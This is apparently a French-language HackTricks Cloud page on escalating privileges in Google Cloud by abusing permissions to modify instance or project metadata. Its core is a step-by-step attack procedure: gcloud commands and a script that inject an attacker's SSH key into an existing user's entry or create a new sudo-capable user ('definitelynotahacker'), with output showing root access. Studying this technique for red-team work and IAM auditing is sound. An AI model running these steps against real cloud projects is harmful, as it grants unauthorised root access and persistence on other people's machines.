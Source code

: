 # GCP - Ajouter des métadonnées SSH personnalisées

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Si vous pouvez **modifier les métadonnées de l'instance**, il existe de nombreuses façons d'escalader les privilèges localement. Voici quelques scénarios qui peuvent conduire à un compte de service avec cette permission :

_**Compte de service par défaut**_\
Si le **scope** d'accès du compte de service est réglé sur **accès complet** ou au moins permet explicitement **l'accès à l'API compute**, alors cette configuration est **vulnérable** à l'escalade. Le **scope** **par défaut** n'est **pas** **vulnérable**.

_**Compte de service personnalisé**_\
Lors de l'utilisation d'un compte de service personnalisé, **l'une** des permissions IAM suivantes est **nécessaire** pour escalader les privilèges :

* `compute.instances.setMetadata` (pour affecter une seule instance)
* `compute.projects.setCommonInstanceMetadata` (pour affecter toutes les instances du projet)

Bien que Google [recommande](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance) de ne pas utiliser de scopes d'accès pour les comptes de service personnalisés, il est toujours possible de le faire. Vous aurez besoin de l'un des **scopes d'accès** suivants :

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **Ajouter des clés SSH aux métadonnées personnalisées**

Les **systèmes Linux** sur GCP exécutent généralement des scripts [Python Linux Guest Environment pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). L'un d'eux est le [daemon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui **interroge périodiquement** le point de terminaison des métadonnées de l'instance pour **détecter les changements dans les clés publiques SSH autorisées**.

**Si une nouvelle clé publique** est détectée, elle sera traitée et **ajoutée à la machine locale**. Selon le format de la clé, elle sera soit ajoutée au fichier `~/.ssh/authorized_keys` d'un **utilisateur existant, soit créera un nouvel utilisateur avec des droits `sudo`**.

Ainsi, si vous pouvez **modifier les métadonnées personnalisées de l'instance** avec votre compte de service, vous pouvez **escalader** en root sur le système local en **obtenant des droits SSH** sur un compte privilégié. Si vous pouvez modifier les **métadonnées de projet personnalisées**, vous pouvez **escalader** en root sur **n'importe quel système dans le projet GCP actuel** qui exécute le daemon des comptes.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

Commençons par ajouter notre propre clé à un compte existant, car cela fera probablement le moins de bruit.

**Vérifiez l'instance pour les clés SSH existantes**. Choisissez l'un de ces utilisateurs car ils sont susceptibles d'avoir des droits sudo.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
Recherchez une section comme suit :
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
Remarquez le **format légèrement inhabituel** des clés publiques - le **nom d'utilisateur** est indiqué au **début** (suivi d'un deux-points) puis à nouveau à la **fin**. Nous devrons respecter ce format. Contrairement à une opération de clé SSH normale, le nom d'utilisateur est absolument important !

**Enregistrez les lignes avec les noms d'utilisateur et les clés dans un nouveau fichier texte** appelé `meta.txt`.

Supposons que nous ciblons l'utilisateur `alice` mentionné ci-dessus. Nous allons **générer une nouvelle clé** pour nous-mêmes de cette manière :
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
Ajoutez votre nouvelle clé publique au fichier `meta.txt` en imitant le format :
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Maintenant, vous pouvez **réécrire les métadonnées de clé SSH** pour votre instance avec la commande suivante :
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
Vous pouvez maintenant **accéder à un shell dans le contexte de `alice`** comme suit :
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Aucune clé existante trouvée en suivant les étapes ci-dessus ? Personne d'autre d'intéressant dans `/etc/passwd` à cibler ?

Vous pouvez **suivre le même processus** que ci-dessus, mais **inventez simplement un nouveau nom d'utilisateur**. Cet utilisateur sera créé automatiquement et se verra accorder les droits de `sudo`. Scripté, le processus ressemblerait à ceci :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

En suivant les détails mentionnés dans la section précédente, vous pouvez essayer de compromettre davantage de VMs.

Nous pouvons développer cela en [**appliquant des clés SSH au niveau du projet**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), ce qui vous donne la permission de **vous connecter en SSH à un compte privilégié** pour toute instance qui n'a pas explicitement choisi l'option "Bloquer les clés SSH à l'échelle du projet".
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
Si vous êtes vraiment audacieux, vous pouvez également taper `gcloud compute ssh [INSTANCE]` pour utiliser votre nom d'utilisateur actuel sur d'autres machines.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
